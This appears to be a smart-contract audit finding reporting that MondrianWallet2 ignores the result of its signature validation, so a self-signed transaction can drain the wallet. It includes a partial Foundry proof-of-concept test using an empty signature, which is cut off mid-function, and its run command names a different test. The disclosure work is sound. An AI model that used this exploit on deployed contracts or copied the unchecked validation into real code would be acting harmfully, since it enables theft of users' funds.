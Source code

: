 The `MondrianWallet2` contract allows execution of signed transactions. But the signature is not validated correctly which can allow a malicious user to drain all the funds of the protocol.

## Vulnerability Details

The `MondrianWallet2` contract does execute `_validateTransactions` function from the function `executeTransactionFromOutside` in [Line 97 of MondrianWallet2.sol](https://github.com/Cyfrin/2024-07-Mondrian-Wallet_v2/blob/2abc3e4831d27ae9c498edd3782fd61524587dc0/src/MondrianWallet2.sol#L97). But the result from this execution is not checked. If the signature of the transaction is wrong (different from the owner), the transaction will still be executed. This can be exploited by a malicious user to drain the protocol.

## Impact

A malicious user can self sign a transaction and drain all of the funds of the protocol. The impact is verified with the following test.

### Proof of Code

The impact is demonstrated with the following test. Which can be executed with: `forge test --zksync --system-mode=true --mt "testUnauthorizedTransactionFixed"`.

```js
function testUnauthorizedTransaction() public onlyZkSync {
    MondrianWallet2 implementation = new MondrianWallet2();
    ERC1967Proxy proxy = new ERC1967Proxy(address(implementation), "");
    MondrianWallet2 mondrianWallet = MondrianWallet2(address(proxy));
    mondrianWallet.initialize();
    mondrianWallet.transferOwnership(
        0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266
    );

    vm.deal(address(mondrianWallet), 1e18);
    (address user, uint256 key) = makeAddrAndKey("user");

    uint256 value = 1e18;
    bytes memory functionData = abi.encodeWithSelector(
        ERC20Mock.mint.selector,
        address(mondrianWallet),
        1e18
    );

    uint256 nonce = vm.getNonce(address(mondrianWallet));
    bytes32[] memory factoryDeps = new bytes32[](0);
    Transaction memory transaction = Transaction({
        txType: 113, // type 113 (0x71).
        from: uint256(uint160(mondrianWallet.owner())),
        to: uint256(uint160(user)),
        gasLimit: 0, //16777216,
        gasPerPubdataByteLimit: 16777216,
        maxFeePerGas: 16777216,
        maxPriorityFeePerGas: 16777216,
        paymaster: 0,
        nonce: nonce,
        value: value,
        reserved: [uint256(0), uint256(0), uint256(0), uint256(0)],
        data: functionData,
        signature: hex"",
        factoryDeps: factoryDeps,
        paymasterInput: hex"",
        reservedDynamic: hex""
    });

    bytes32 unsignedTransactionHash = MemoryTransactionHelper.encodeHash(
```